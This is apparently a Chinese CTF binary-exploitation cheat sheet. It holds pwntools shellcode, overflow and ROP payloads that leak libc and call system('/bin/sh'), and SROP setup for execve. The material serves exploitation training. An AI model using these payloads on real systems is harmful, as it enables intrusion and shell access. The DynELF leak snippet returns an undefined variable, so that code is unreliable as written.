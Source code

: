 # PWN题技巧总结

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |    |
|  puts  |    |
|  gets  |  \x0A  |
|  read  |    |
|  write  |    |
|  strcpy  |    |
|  strcmp  |  \x00  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read  |
|  1  |  write  |
|  15  |  rt_sigreturn  |
|  59  |  execve  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数，下图是没对齐的情况

![](3.png)

## 0x007-常用汇编指令

|  汇编语言  |  机器码  |  含义  |
|  :----:  | :----:  | :----:  |
|  leave  |  0xc9  | mov esp, ebp; <br> pop ebp; |